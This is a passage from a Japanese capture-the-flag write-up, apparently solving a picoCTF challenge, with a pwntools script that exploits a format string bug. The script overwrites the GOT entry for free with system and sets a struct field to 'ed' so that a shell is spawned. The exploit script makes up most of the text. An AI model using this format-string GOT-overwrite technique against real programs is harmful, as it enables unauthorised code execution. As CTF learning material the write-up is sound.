 ただしno pie + partial relro + plt.systemまであるので、見た目より簡単です。freeをsystemにすれば平和に終わるのかと思いきや、freeされるのはfsbペイロードではなく謎構造体なので、直接コントロールできません。幸いにしてこの構造体へのポインタはスタックにいるので、fsbでこれも一緒に書き換えることで解決できます。ただし極力短くしたいので、`/bin/sh`の代わりに`ed`を選択しています。

```python
from pwn import *
# context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'mercury.picoctf.net'
PORT = 12784

elf = ELF(TARGET)
def start():
        if not args.R:
                print("local")
                return process(TARGET)
                # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
                # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
        else:
                print("remote")
                return remote(HOST, PORT)

def get_base_address(proc):
        lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
        for line in lines :
                if TARGET[2:] in line.split('/')[-1] :
                        break
        return int(line.split('-')[0], 16)
        # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
        script = "handle SIGALRM ignore\n"
        PIE = get_base_address(proc)
        script += "set $base = 0x{:x}\n".format(PIE)
        for bp in breakpoints:
                script += "b *0x%x\n"%(PIE+bp)
        script += "c"
        gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()
if args.D:
    debug(r, [0xac9])


payload = ''
payload += '%8x'*10 # 10*8 = 0x50

# set elf.got.free addr to stack[20]
payload += '%{}c%n'.format(elf.got.free-0x50)

# set elf.plt.system to elf.got.free using stack[20]
payload += '%{}c%20$hhn'.format((0xf6-elf.got.free) & 0xff)

# set "ed" to struct Portfolios.money using stack[10]
s = elf.got.free + ((0xf6-elf.got.free) & 0xff)
payload += '%{}c%10$hn'.format((0x6465-s) & 0xffff)

r.sendlineafter('lio\n', '1')
r.sendlineafter('?', payload)
```